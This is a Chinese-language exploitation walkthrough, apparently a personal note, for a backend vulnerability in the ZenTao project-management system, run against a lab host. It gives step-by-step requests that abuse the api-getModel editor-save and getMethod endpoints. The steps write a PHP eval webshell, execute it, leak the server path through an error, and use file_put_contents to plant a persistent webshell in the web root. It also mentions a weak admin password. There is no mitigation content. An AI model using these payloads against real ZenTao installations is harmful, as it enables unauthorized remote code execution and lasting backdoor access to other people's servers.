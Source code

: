 <a name="5AIqw"></a>
## 注意点：
**后台漏洞**<br />**api-getModel-editor-save-filePath         写入**<br />**api-getModel-api-getMethod-filePath   执行**<br />**文件包含shell的时候记得带上cookie**

1.      构造路径 ：/index.php?mode=getconfig 获取当前zentao版本<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628044738974-4fc434a3-721d-467f-8d0b-8e6f46b52539.png#align=left&display=inline&height=151&originHeight=151&originWidth=1201&size=71236&status=done&style=none&width=1201)<br />2.      使用密码123456进入后台。该漏洞为后台利用漏洞。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628044754497-e31af690-f6e8-4565-abe8-b11fe90b8192.png#align=left&display=inline&height=533&originHeight=533&originWidth=1145&size=160140&status=done&style=none&width=1145)<br />3.       使用burp抓包构造/api-getModel-editor-save-filePath方法post请求写入php文件<br />/api-getModel-editor-save-filePath=<br />fileContent=<?php @eval($_POST[a]);?><br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628044773098-cf369184-11c4-49db-b356-c161e0ff0ae5.png#align=left&display=inline&height=463&originHeight=463&originWidth=1002&size=180101&status=done&style=none&width=1002)

4.      构造api-getModel-api-getMethod-filePath方法使用get请求执行php代码<br />[http://192.168.201.135:8084/api-getModel-api-getMethod-filePath=/tmp/shell/1](http://192.168.201.135:8084/api-getModel-api-getMethod-filePath=/tmp/shell/1)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628044819368-0586294b-5b00-417e-97a2-85a56e18b195.png#align=left&display=inline&height=685&originHeight=685&originWidth=1037&size=471924&status=done&style=none&width=1037)
<a name="czpsu"></a>
## 通过包含直接shell
 ![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628044955642-82160f78-8cba-4378-a8f9-7c9372dad015.png#align=left&display=inline&height=518&originHeight=518&originWidth=1279&size=69645&status=done&style=none&width=1279)<br />然后再访问<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628044975365-29f091b0-f97e-4c86-95d6-c5f46ba893e7.png#align=left&display=inline&height=320&originHeight=320&originWidth=1339&size=65548&status=done&style=none&width=1339)<br />连一句话，**记得带上cookie**<br />**![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628045165277-6f77d32d-1901-4a2c-8630-deae35caf433.png#align=left&display=inline&height=186&originHeight=186&originWidth=632&size=8794&status=done&style=none&width=632)**<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628044999279-322a242f-2a19-47dd-aa7d-0d8fb5693b51.png#align=left&display=inline&height=671&originHeight=671&originWidth=1253&size=76623&status=done&style=none&width=1253)
<a name="6yTNn"></a>
## file_put_contents写shell
5.      通过构造报错路径 /api-getModel-api-getMethod-filePath=/tmp/shell1/1获得物理路径。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628044840404-8ad3f7bc-0651-4060-87d4-df30d31aa999.png#align=left&display=inline&height=256&originHeight=256&originWidth=1071&size=155161&status=done&style=none&width=1071)

6.      然后通过file_put_contents函数对物理路径写入webshell<br />fileContent=<?php file_put_contents('/app/zentaopms/www/1.php', '<?php @eval($_POST[a]); ?>');?><br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628044850472-d91c2ca4-94b5-4c60-b362-668c23c13807.png#align=left&display=inline&height=445&originHeight=445&originWidth=1046&size=176917&status=done&style=none&width=1046)<br />7.      访问[http://192.168.201.135:8084//api-getModel-api-getMethod-filePath=/tmp/shell1/1](http://192.168.201.135:8084//api-getModel-api-getMethod-filePath=/tmp/shell1/1)文件，让文件执行php代码。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628044873265-39304d8b-fa7c-4b67-a770-68496ba3f215.png#align=left&display=inline&height=239&originHeight=239&originWidth=1050&size=151422&status=done&style=none&width=1050)<br />8.      访问网站根目录，看页面能否解析。如果可以则连接webshell。如图下所示，访问webshell没有报错，证明已解析，成功连接webshell。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628044891046-1afbaee9-95ff-4a0f-aabe-c1b30e484b4b.png#align=left&display=inline&height=408&originHeight=544&originWidth=815&size=102918&status=done&style=none&width=611)
